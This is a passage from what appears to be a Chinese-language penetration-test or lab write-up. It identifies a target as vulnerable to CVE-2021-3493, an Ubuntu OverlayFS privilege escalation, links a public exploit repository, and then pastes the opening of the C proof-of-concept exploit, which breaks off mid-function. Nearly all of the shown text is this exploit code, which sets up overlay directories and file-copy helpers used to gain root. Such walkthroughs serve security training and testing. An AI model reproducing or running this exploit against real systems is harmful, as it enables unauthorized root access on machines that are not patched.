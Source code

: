 ![image-20231121233533192](../images/image-20231121233533192.png)

存在OS漏洞：CVE-2021-3493 https://github.com/briskets/CVE-2021-3493?source=post_page-----bd3421cba76d--------------------------------

POC：

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <err.h>
#include <errno.h>
#include <sched.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mount.h>

//#include <attr/xattr.h>
//#include <sys/xattr.h>
int setxattr(const char *path, const char *name, const void *value, size_t size, int flags);


#define DIR_BASE    "./ovlcap"
#define DIR_WORK    DIR_BASE "/work"
#define DIR_LOWER   DIR_BASE "/lower"
#define DIR_UPPER   DIR_BASE "/upper"
#define DIR_MERGE   DIR_BASE "/merge"
#define BIN_MERGE   DIR_MERGE "/magic"
#define BIN_UPPER   DIR_UPPER "/magic"


static void xmkdir(const char *path, mode_t mode)
{
    if (mkdir(path, mode) == -1 && errno != EEXIST)
        err(1, "mkdir %s", path);
}

static void xwritefile(const char *path, const char *data)
{
    int fd = open(path, O_WRONLY);
    if (fd == -1)
        err(1, "open %s", path);
    ssize_t len = (ssize_t) strlen(data);
    if (write(fd, data, len) != len)
        err(1, "write %s", path);
    close(fd);
}

static void xcopyfile(const char *src, const char *dst, mode_t mode)
{
    int fi, fo;

    if ((fi = open(src, O_RDONLY)) == -1)
        err(1, "open %s", src);
    if ((fo = open(dst, O_WRONLY | O_CREAT, mode)) == -1)
        err(1, "open %s", dst);
```